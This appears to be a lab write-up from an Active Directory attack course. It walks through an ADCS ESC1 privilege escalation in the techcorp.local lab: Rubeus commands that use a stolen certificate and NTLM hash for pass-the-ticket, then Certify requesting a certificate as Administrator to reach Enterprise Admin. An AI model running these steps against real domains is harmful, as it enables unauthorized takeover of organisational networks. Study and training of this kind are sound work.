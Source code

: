 # Methodology
- Our goal is to reach EA privileges, since this is the Root Domain in the current Forest.
- After we reach EA privileges, our goal is to further expand our access by abusing Trusts with other Forests.
# 1. Attacking ADCS - ESC1
- From the Enumeration phase we saw that PKI is set on the environment and ADCS is installed on the Root DC.
- We also found a certificate that has the `ENROLLEE_SUPPLIES_SUBJECT` flag set, which means that we can use this template to request a certificate on behalf of any user we want. This Domain Escalation Method is described as **ESC1**.
- `us\pawadmin` has Enrollment Permissions on the vulnerable certificate template. Since we already have credentials and a certificate for that account, we can easily impersonate it and use it to request a certificate from the vulnerable template and elevate our privileges on the Enterprise.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:pawadmin /certificate:C:\Auditor\Loot\pawadmin.pfx /password:certpass /domain:us.techcorp.local /getcredentials /ptt

<snip>

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 36EA28BFA97A992B5E85BD22485E8D52
```
- Alternatively, we can use the stolen NTLM hash of the account to request a TGT for that account.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:pawadmin /rc4:36ea28bfa97a992b5e85bd22485e8d52 /domain:us.techcorp.local /ptt

<snip>
```
- We can now request a certificate from the vulnerable template, however, we will do it on behalf of a high-privileged user. We can either request a certificate for the EA.
```powershell
PS C:\Auditor> .\Certify.exe request /ca:techcorp-dc.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Request a Certificates

[*] Current user context    : US\studentuser57
[*] No subject name specified, using current context as subject.

[*] Template                : ForAdminsofPrivilegedAccessWorkstations
[*] Subject                 : CN=studentuser57, CN=Users, DC=us, DC=techcorp, DC=local
[*] AltName                 : Administrator

[*] Certificate Authority   : techcorp-dc.techcorp.local\TECHCORP-DC-CA
```